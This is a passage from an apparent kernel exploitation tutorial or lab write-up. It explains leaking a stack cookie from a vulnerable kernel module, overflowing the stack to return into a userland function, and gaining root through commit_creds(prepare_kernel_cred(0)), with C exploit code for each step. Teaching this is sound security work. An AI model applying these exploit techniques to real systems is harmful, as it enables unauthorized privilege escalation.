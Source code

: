 ```C
    }
}
```

After doing this, we can now read and write to `global_fd`.

### Leaking stack cookies
Because we have arbitrary stack read, leaking is trivial. The `tmp` buffer on the stack itself is 0x80 bytes long, and the stack cookie is immediately after it. Therefore, if we read the data to a `unsigned long` array (of which each element is 8 bytes), the cookie will be at offset 16:
```C
unsigned long cookie;

void leak(void){
    unsigned n = 20;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
}
```

### Overwriting return address
The situation here is the same as leaking, we will create an `unsigned long` array, then overwrite the cookie with our leaked cookie at index 16. The important thing to note here is that different from `userland` programs, this kernel function actually pops 3 registers from the stack, namely `rbx`, `r12`, `rbp` instead of just `rbp` (this can clearly be seen in the disassembly of the functions). Therefore, we have to put 3 dummy values after the cookie. Then the next value will be the return address that we want our program to return into, which is the function that we will craft on the `userland` to achieve root privileges, I called it `escalate_privs`:
```C
void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = (unsigned long)escalate_privs; // ret

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}
```
The final concern here is what do we actually write in that function to achieve root privileges.

### Getting root privileges
Again, just as a reminder, our goal in kernel exploitation is not to pop a shell via `system("/bin/sh")` or `execve("/bin/sh", NULL, NULL)`, but it is to achieve root privileges in the system, then pop a root shell. Typically, the most common way to do this is by using the 2 functions called `commit_creds()` and `prepare_kernel_cred()`, which are functions that already reside in the kernel-space code itself. What we need to do is to call the 2 functions like this:
```C
commit_creds(prepare_kernel_cred(0))
```
